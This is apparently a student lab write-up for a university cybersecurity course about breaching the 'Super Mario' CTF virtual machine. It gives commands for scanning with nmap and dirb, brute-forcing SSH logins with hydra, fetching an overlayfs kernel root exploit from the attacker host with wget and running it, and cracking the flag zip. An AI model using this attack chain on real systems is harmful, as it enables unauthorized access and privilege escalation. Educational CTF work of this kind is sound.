








## Sant Alice - Cybersecurity Course 2024 - UniTS

# Hack the Super Mario 

## Introduction
The Super Mario challenge is a penetration testing exercise designed to simulate a real-world hacking scenario. There are hidden flags embedded within a specially configured virtual machine (VM). To breach this VM, a Kali linux virtual machine is used as the attacking machine.
This report outlines the step-by-step process followed to breach the target VM, emphasizing the tools and techniques used.

## Technologies and tools used

1. **VirtualBox**   
    This demo uses two virtual machines installed on VirtualBox:
    * **attacking machine**: Kali Debian distribution
    * **target machine**: SuperMario Ubuntu distribution
    
    Both VM are configured to belong to the same network.  

2. **Technologies**   
    * **nmap**: network exploration tool for security auditing
    * **dirb**: web content scanner to find hidden directories and files
    * **john the ripper**: password cracking tool
    * **hydra**: fast and flexible login cracker
    * **ssh**: secure Shell for secure remote login
    * **gcc**: GNU Compiler Collection for compiling exploits
    * **wget**: network downloader for retrieving files from the web
    * **fcrackzip**: fast password cracker for zip files

3. **Configuration**  
    Before starting the local package database is refreshed and the latest versions of available packages are installed on Kali. 

    `apt-get update`  
    `apt-get upgrade`  

    Many of the necessary tools are already included in Kali distribution, but it was necessary to install apache2 (web server), ufw (for managing firewall rules) and fcrackzip.

    `apt-get install apache2`  
    `apt-get install ufw`  
    `ufw allow http`    
    `apt-get install fcrackzip`  

## Implementation

First, both virtual machines are started.

1. **Asset discovery**  
    To understand which network Kali belongs to, the `ifconfig` command is used, revealing that Kali has an IP address of '10.0.2.7'.
     

2. **Enumeration with nmap**   
    The first step in any penetration test is enumeration. Nmap is used to discover open ports and services on the target VM, so we scan our network.

    `nmap 10.0.2.0/24`   

    We discover open ports 22 (SSH) and 8180 (HTTP).

    

    
    

3. **Attempt to access the web service**  
    By navigating to 'http://10.0.2.5:8180' in the browser, the page displays "Welcome to nginx". This response indicates that the server is running the nginx web server software but has not been configured with any specific web content or applications to serve. Therefore, more information gathering is necessary to continue the penetration test.

    

    
    

4. **Directory bruteforce with dirb**  
    After identifying the HTTP service, a directory brute-force attack is conducted using dirb to find hidden files and directories.  

    `dirb http://10.0.2.5:8180 /usr/share/wordlists/dirb/big.txt`  

    We discover a file named 'vhosts'.

    

    
    

5. **Exploring virtual hosts**  
    We explore 'vhosts' by navigating to 'http://10.0.2.5:8180/vhosts'. This reveals a server name (mario.supermariohost.local), which is then mapped in the local hosts file using the nano editor to facilitate further exploration.

    `cd /etc`  
    `sudo nano hosts`  
    `# Add line: "10.0.2.5 mario.supermariohost.local"`
  
    After adding the hostname, we verify the addition with `cat hosts`.     

    

    
    

     Visiting 'mario.supermariohost.local' in the browser displays a Mario browser game that is not functional.

6. **SSH enumeration and dictionary creation**  
    Since ports 22 and 8180 were open and we didn't get much information from the enumeration of port 8180, we now move towards port 22 for SSH enumeration. Using knowledge of famous Super Mario characters (mario, luigi, peach, toad, yoshi), a dictionary of potential usernames is created to retrieve credentials to log in to the SSH server (brute force). We then save the created text file as 'user'.
    
    

    
    

    
    John the ripper is then used to generate a password list.

    `john --wordlist:user --rules --stdout > pass`  

    The '--rules' option enables wordlist rules, and '--stdout' specifies that the generated passwords should be outputted with a fixed length. These passwords are then saved to a file named 'pass' on the desktop.

7. **Password cracking with hydra**  
    Using the username dictionary saved as 'user' and the password dictionary generated by john the ripper saved as 'pass', we needed to find the correct combination to log in via SSH. To accomplish this, we used Hydra to brute force the SSH login using the generated lists of usernames and passwords.

    `hydra -L user -P pass 10.0.2.5 ssh`  

    We found one valid credential 'luigi:luigi1'.

    

    
    

8. **SSH login and initial access**  
    With the cracked credentials, an SSH session is established to gain access to the VM, and we log in as user 'luigi'.  

    `ssh luigi@10.0.2.5`   
    `# Password: luigi1`

9. **Privilege escalation**  
    We discover that the target system is running Linux kernel version 3.13.0. There is a known exploit for the 3.13.0 overlayfs local root in Ubuntu. We download it inside Kali Linux from 'https://www.exploit-db.com/exploits/37292/', rename the file to 'mario.c', and move it to the '/var/www/html' directory. In this way we can download the file in the target machine through apache2.

    `sudo mv /home/kali/Downloads/mario.c /var/www/html`

    Inside the target system we download, compile, and execute the exploit to escalate privileges to root.

    `wget http://10.0.2.7/mario.c`   
    `gcc mario.c -o mario`   
    `./mario`

    We have obtained root privilege (we verify it with the `id` command), and inside the root directory, there is a zip file named 'flag.zip' that is the file we were searching for.
      
    `cd /root`

    We give full permissions (read, write, and execute) to everyone for 'flag.zip' to move it to the '/var/www/html' directory. As before this is done to download the file in Kali machine through nginx.

    `chmod 777 flag.zip`   
    `cp /root/flag.zip /var/www/html`

    

    
    

10. **Downloading and cracking the flag zip**   
    Finally from Kali we download the file 'flag.zip' from the URL 'http://10.0.2.5:8180/' and save it.

    `wget http://10.0.2.5:8180/flag.zip`
    
    We attempt to crack the password of the 'flag.zip' file using a list of common passwords provided in 'rockyou.txt'. The result shows that the password is 'ilovepeach'.
      
    `fcrackzip flag.zip -D -P /user/share/wordlist/rockyou.txt -u`

    We access the content of the zip file which include the 'flag.txt' file and then read the flag contained within.

    `unzip flag.zip`
    `cat flag.txt`

    

    
    

## Conclusions
The Super Mario cybersecurity challenge provided an exciting and educational experience, simulating real-world penetration testing scenarios. By using various tools and techniques such as nmap, dirb, john the ripper, hydra, wget, and local exploits, we were able to successfully breach the VM, escalate privileges, and retrieve one hidden flag. This exercise demonstrated the importance of thorough enumeration, effective use of password cracking tools, and leveraging known vulnerabilities for privilege escalation in cybersecurity practices.

## Future developments
There are multiple ways to hack this machine, and an interesting future goal would be to explore all possible methods to gain access. Additionally, the ultimate objective should be to retrieve all the passwords of all the users on this machine, further enhancing our understanding and skills in comprehensive penetration testing.

## References
https://www.hackingarticles.in/hack-super-mario-ctf-challenge/